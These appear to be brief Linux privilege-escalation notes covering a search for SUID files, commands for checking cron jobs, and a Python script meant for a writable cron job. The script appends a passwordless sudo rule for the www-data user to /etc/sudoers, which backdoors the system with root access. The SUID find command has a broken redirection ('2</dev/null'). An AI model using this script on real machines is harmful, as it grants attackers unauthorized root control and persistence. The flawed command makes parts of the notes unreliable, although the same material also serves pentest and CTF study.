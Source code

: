 ### PRIVESC notes

### suid bits
- Finding files with suid bit

      find / -perm -u=s -type f 2</dev/null

### CRON JOBS
  <a href="https://vk9-sec.com/exploiting-the-cron-jobs-misconfigurations-privilege-escalation/">Link to MORE ON CRON JOBS</a>
- Check cronjobs with

       cat /etc/crontab
- Check if the cron job is running with

      service cron status
  
- Script to run if you can write a cronjob script

       import os 
       import sys
       try:
          print("on it")
          os.system("echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers")
       except:
            print("Didn't work")
            sys.exit()
